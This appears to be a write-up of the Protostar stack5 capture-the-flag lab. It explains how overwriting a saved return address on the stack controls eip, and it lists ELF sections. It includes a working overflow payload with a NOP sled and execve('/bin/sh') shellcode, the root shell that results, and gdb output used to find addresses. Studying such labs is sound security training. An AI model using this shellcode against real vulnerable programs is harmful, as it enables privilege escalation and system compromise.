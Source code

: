 > Here, leave is equivalent of `pop ebp` to restore `ebp` value. 
> `ret` is equivalent of `pop eip` to start executing the next instruction after the function call.

### What we need to do
   -  Program flow is controlled through `eip` register
   - On returning from a called function, `eip` register is updated with a value (return address) from the stack
   - If we can somehow **overflow a local variable on stack to modify the return address accurately, we can control the program execution**.
   - Note that similar to the function foo, even **the function main has its own stack frame and returns back to “something” after completing its execution**. This “something” is the c library runtime against which the compiler linked the program. So we can even **try to change execution path by modifying this return address.**
   
   

#### Points to remember
-  Various sections of executable file.
 - __`.text`: the executable portion__
 - __`.rodata`: literal strings (initialised read-only data)__
 - `.data`:  initialised data
 - `.bss`: uninitialized data.
 - `.plt`: PLT (Procedure Linkage Table) (IAT equivalent).
 - `.got`: GOT entries dedicated to dynamically linked global variables.
 - `.got.plt`: GOT entries dedicated to dynamically linked functions.
 - `.dynamic`: Holds all needed information for dynamic linking.
 - `.dynsym`: symbol tables dedicated to dynamically linked symbols.
 - `.strtab`: string table of `.symtab` section.


## Answer stack5

```bash
user@protostar:/opt/protostar/bin$ python -c "import sys;sys.stdout.write('\x90' * 76 + '\x00\xf8\xff\xbf'+ '\x90'*30 +'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80');" | ./stack5
# whoami
root


```



shellcraft onliner payload
```txt
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```


Reset instruction pointer to the start of main then add our payload shell code and run it.

```bash
(gdb) break main
Breakpoint 1 at 0x80483cd: file stack5/stack5.c, line 10.
(gdb) r
Starting program: /opt/protostar/bin/stack5 

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack5/stack5.c:10
10	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x $esp
0xbffff750:	0xb7fd7ff4
(gdb) p $esp
$1 = (void *) 0xbffff750

```